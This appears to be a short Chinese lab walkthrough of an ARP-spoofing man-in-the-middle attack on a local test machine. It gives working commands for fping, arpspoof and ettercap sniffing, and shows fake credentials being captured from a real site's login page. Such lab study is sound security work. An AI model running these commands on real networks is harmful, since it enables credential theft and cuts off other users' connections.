



获取靶机ip    fping -g 192.168.255.1/24

得到靶机ip 192.168.255.151

查看默认网关  route -n

得到192.168.255.2 为局域网共用网关

利用kali自带工具进行arp欺骗使对方断网：

（Arpspoof -i 网卡 -t ip地址 网关

注意：2.0版本 arpspoof -i 网卡-t 网关 目标ip地址）

arpspoof -i eth0 -t 192.168.255.151 192.168.255.2

**开启IP转发功能，linux因为系统安全考虑，是不支持IP转发的，其配置文件写在/proc/sys/net/ipv4的ip_forward中。默认为0，接下来修改为1**

网关改为自己的ip,这样靶机仍然可以正常上网，方便后面查看数据包

arpspoof -i eth0 -t 192.168.255.151 192.168.255.153

使用kali自带工具 ettercap 嗅探

ettercap  -Tq -i eth0

随便找一个有登陆的ip用于测试 http://passport2.chaoxing.com/login

靶机在网页输入伪造的用户名密码

在kali查看

